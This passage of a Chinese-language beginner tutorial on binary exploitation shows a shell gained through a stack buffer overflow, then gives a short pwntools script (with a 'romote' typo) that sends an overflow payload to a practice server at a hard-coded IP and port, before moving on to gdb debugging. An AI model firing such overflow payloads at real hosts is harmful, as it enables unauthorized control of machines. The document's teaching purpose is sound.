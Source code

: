 ```sh
    '\n'
    'Do you have something to say?\n'
Hello,I'm dyf.

QAQ

Do you have something to say?
$ 
```

可以看到我们已经返回了shell,这意味着我们拿到了这台机器的控制权限,加入这个程序的owner是root的话,我们就会获得root权限.

这个时候,按照传统,我们要输入一条神圣的指令来证明我们的身份:

```sh
> whoami
```

![a2](./pictures/a2.png)

&emsp;&emsp;很酷是不是,一下子就获得上帝的权限,root就是linux中的上帝,掌握一切生杀大权,到此为止,你已经拿下了你的第一台主机了.

接下来我会把之前提到的那个样例程序放到服务器上供你们娱乐,你么可以尝试练习一下.

关于exp连接远端的方式:

```python
#!	/usr/bin/python2
#选择python2解释器

# -*- coding: UTF-8 -*-
#设置utf-8编码,为了支持中文

from pwn import *  #引入pwntools的库

context.log_level = 'debug' # 开启debug模式,可以记录发送和收到的字符串

sh = romote('202.204.62.222',30008) # 只需要修改这一句话,填写对应的ip地址和端口 remote('ip', port)
#sh = process('./a')  #构造与程序交互的对象

payload = 'a' * 40 + 'bbbb' + p32(0x08049182)  # 构造payload

sh.sendline(payload)  # 将字符串发送给程序

sh.interactive() # 将代码变为手动交互
```



最后来介绍一下动态调试技巧,主要是关于gdb的使用.我相信8成的人写代码仍然使用十分复古的调试方法:

- 放置调试法:什么也不做等着bug消失
- 再来一次调试法: 一定是编译器坏了,重新编译一次等bug消失
- 玄学调试法: 随便改两个地方,用命运的力量消除bug
- 放弃调试法: 洗洗睡了
